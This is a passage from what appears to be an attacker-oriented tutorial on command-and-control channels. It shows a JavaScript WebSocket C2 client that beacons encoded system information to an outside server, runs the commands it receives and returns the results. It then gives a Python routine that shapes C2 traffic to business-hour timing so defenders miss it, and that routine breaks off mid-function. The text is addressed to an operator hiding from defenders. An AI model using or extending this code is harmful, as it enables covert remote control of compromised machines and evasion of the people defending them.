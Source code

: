 2. **WebSocket Tunneling**: Using WebSockets which allow two-way communication once established.

```javascript
// WebSocket-based C2 client
const establishC2Channel = () => {
    const ws = new WebSocket('wss://legitimate-ws-service.com/socket');
    
    ws.onopen = () => {
        console.log('Connection established');
        // Send initial beacon
        ws.send(JSON.stringify({
            type: 'status',
            data: encodeSystemInfo()
        }));
    };
    
    ws.onmessage = (event) => {
        const message = JSON.parse(event.data);
        // Process commands from the C2 server
        if (message.type === 'command') {
            executeCommand(message.data)
                .then(result => {
                    ws.send(JSON.stringify({
                        type: 'result',
                        id: message.id,
                        data: result
                    }));
                });
        }
    };
    
    // Implement reconnection logic
    ws.onclose = () => {
        setTimeout(establishC2Channel, getJitteredInterval(5000, 30000));
    };
};
```

3. **DNS Tunneling**: Encoding data in DNS queries and responses, which we talked about earlier.

For best results, combine protocol encapsulation with traffic shaping to make your traffic patterns look like the legitimate protocol you're mimicking.

### Traffic Shaping and Timing

Traffic shaping is about making your C2 traffic look like normal traffic patterns. This makes it harder for defenders to spot your activity through timing analysis or by watching traffic flows.

Here's a simple implementation that mimics how real humans and business hours work:

```python
def send_c2_traffic(data):
    """Send C2 traffic with realistic timing patterns"""
    chunks = split_into_chunks(data)
    
    for chunk in chunks:
        # Working hours pattern (more traffic during business hours)
        hour = datetime.now().hour
        if 9 <= hour <= 17:  # Business hours
            delay = random.uniform(1, 5)  # 1-5 seconds
        else:
            delay = random.uniform(30, 120)  # 30-120 seconds
            
        # Randomize weekends
        if datetime.now().weekday() >= 5:  # Weekend
            delay *= 2
            
```